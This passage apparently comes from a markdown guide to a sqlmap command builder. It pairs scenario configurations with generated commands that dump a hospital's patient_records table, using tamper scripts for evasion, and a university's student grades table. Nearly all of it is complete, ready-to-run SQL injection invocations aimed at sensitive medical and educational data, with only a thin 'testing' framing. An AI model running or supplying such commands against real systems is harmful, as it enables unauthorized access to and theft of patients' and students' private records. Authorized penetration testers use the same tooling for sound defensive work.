 **Generated Command:**
```bash
sqlmap -u "https://hospital.com/appointments.php" --method=POST --data="patient_id=123&doctor_id=456&date=2024-01-15" --cookie="medical_staff_session=authenticated" --referer="https://hospital.com/dashboard.php" -p patient_id,doctor_id --dbms=mssql --multiple-statements --stacked-test --tamper=space2comment,charencode --level=4 --risk=3 --technique=S --time-sec=2 -D medical_db -T patient_records --columns --dump --start=1 --batch
```

## 🏫 Educational Institution Testing

### Scenario 5: University Grade Management
**Target:** Student grade viewing system
**Vulnerability:** Error-based injection in grade lookup

**Configuration:**
```
Target Tab:
├── URL: https://university.edu/grades.php?student_id=12345&course_id=CS101
├── Method: GET
├── Cookie: student_portal_session=valid
└── User Agent: Mozilla/5.0 (compatible; UniversityBot/1.0)

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: E (Error-based)
├── Time Delay: 1
└── Retries: 2

Injection Tab:
├── Testable Parameters: student_id,course_id
├── DBMS: MySQL
├── Union Columns: 6
└── Union Test All: ✓

Enumeration Tab:
├── Database: student_db
├── Table: grades
├── Columns: student_id,course_id,grade,instructor,comments
├── Dump Table: ✓
└── Where: grade < 'C'
```

**Generated Command:**
```bash
sqlmap -u "https://university.edu/grades.php?student_id=12345&course_id=CS101" --cookie="student_portal_session=valid" --user-agent="Mozilla/5.0 (compatible; UniversityBot/1.0)" --level=3 --risk=2 --technique=E --time-sec=1 --retries=2 -p student_id,course_id --dbms=mysql --union-cols=6 --union-test-all -D student_db -T grades --columns --dump --where="grade < 'C'" --batch
```

## 🛒 E-commerce Platform Testing
